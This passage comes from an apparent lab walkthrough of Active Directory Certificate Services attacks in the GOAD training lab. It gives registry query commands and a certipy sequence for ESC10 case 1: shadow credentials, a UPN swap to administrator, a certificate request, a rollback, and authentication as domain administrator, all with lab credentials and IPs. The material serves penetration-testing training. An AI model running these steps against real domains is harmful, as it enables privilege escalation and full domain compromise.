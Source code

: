 > The key value StrongCertificateBindingEnforcement can't be viewed has a simple user, but as DA you could see it if present with :
> - `reg.py "essos.local"/"daenerys.targaryen":'BurnThemAll!'@"192.168.56.12" query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'`
> Same for the certificate mapping method: "CertificateMappingMethods"
> - `reg.py "essos.local"/"daenerys.targaryen":'BurnThemAll!'@"192.168.56.12" query -keyName 'HKLM\System\CurrentControlSet\Control\SecurityProviders\Schannel'`
{: .prompt-info } 

## ESC10
- Basically the attack is the same as ESC9, change the UPN of a user, ask for cert and change it back.

> ESC10 is setup on dc01 on the GOAD lab (domain sevenkingdoms)
> - in GOAD/data/config.json the folowing line was modified:
> - `"vulns" : ["disable_firewall", "adcs_esc10_case1", "adcs_esc10_case2"],`

### ESC10 - case 1 - StrongCertificateBindingEnforcement 0
- Exploitation with jaime->joffrey generic write to go to administrator.

```bash
# get joffrey hash with shadowcredentials
certipy shadow auto -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -account joffrey.baratheon -dc-ip 192.168.56.10

# change jeoffrey UPN
certipy account update -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -user joffrey.baratheon -upn administrator -dc-ip 192.168.56.10

# ask for certificate
certipy req -username "joffrey.baratheon@sevenkingdoms.local" -hashes "3b60abbc25770511334b3829866b08f1" -target "192.168.56.10" -ca 'SEVENKINGDOMS-CA' -template 'user' -debug

# Rollback upn modification
certipy account update -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -user joffrey.baratheon -upn joffrey.baratheon -dc-ip 192.168.56.10

# Connect with the certificate
certipy auth -pfx 'administrator.pfx' -domain "sevenkingdoms.local" -dc-ip 192.168.56.10
```
